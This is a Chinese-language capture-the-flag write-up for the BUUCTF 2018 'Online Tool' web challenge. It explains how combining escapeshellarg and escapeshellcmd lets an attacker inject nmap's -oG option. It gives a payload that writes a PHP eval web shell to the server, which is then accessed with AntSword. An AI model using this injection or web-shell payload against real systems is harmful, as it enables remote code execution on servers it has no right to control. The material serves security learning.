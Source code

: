 # BUUCTF 2018

## Web

### Online Tool

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

* REMOTE\_ADDR：表示发出请求的远程主机的 IP 地址
* X\_FORWARDED\_FOR：表示 HTTP 的请求端真实的 IP 地址
* `escapeshellarg()` ：把字符串转码为可以在 shell 命令里使用的参数
* `escapeshellcmd()` ：把字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义
* `chdir()` ：把当前的目录改变为指定的目录
* nmap：扫描站点的目录，寻找敏感文件
  * \-sT：TCP 扫描
  * \-T5：速度最快（牺牲部分准确性）
  * \-Pn：使用 Ping 扫描，显式地关闭端口扫描，用于主机发现
  * \--host-timeout 2：等待时间 2 ms
  * \-F：快速扫描
  * \-oG：将命令和结果写进文件

通过分析可以得出需要绕过 `escapeshellarg()` 和 `escapeshellcmd()` 两个函数。通过 `-oG` 进行输出包含 shell 的文件，下面是示例：

```php
<?php
$host = "'shell -oG shell.php'";
echo $host.'<br>'; // 'shell -oG shell.php'
$host = escapeshellarg($host);
echo $host.'<br>'; // ''\''shell -oG shell.php'\'''
$host = escapeshellcmd($host);
echo $host.'<br>'; // ''\\''shell -oG shell.php'\\'''
```

```bash
$ nmap -T5 -sT -Pn --host-timeout 2 -F ''\\''shell -oG shell.php'\\'''
# 输出文件名 shell.php\\
```

在 shell.php 后加上空格就可以使得文件名为 `shell.php` 了，payload `'<?php eval($_POST["data"]); ?> -oG shell.php '` 后再访问就可以发现 shell 上传成功了。

通过蚁剑连接 `http://xxx/f565ac1e9b5d20c5a41d0ba339fa528d/shell.php` 就可以在根目录找到 flag 了。
